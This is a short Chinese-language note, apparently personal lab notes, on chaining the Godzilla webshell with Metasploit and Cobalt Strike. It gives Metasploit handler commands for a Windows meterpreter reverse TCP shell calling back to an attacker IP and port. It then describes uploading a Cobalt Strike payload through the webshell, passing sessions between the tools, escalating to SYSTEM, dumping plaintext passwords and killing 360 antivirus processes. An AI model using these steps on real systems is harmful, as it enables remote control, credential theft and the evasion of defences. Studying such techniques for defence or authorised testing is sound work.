





# CS,msf
哥斯拉联动msf
使用哥斯拉ShellcodeLoder中的meterpreter模块
在攻击机上启动msf
设置
```
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.111.128
set lport 9090
run
```

填入设置的参数,go,msf成功收到

哥斯拉上线CS
在cs中配置监听器,并生成payload,通过哥斯拉上传至靶机,运行artifact.exe后
会话在CS中上线

msf->CS
将msf派发到CS
......

msf中getsystem失败,在CS中getsystem获得system权限

获取明文密码



可以关闭360的进程

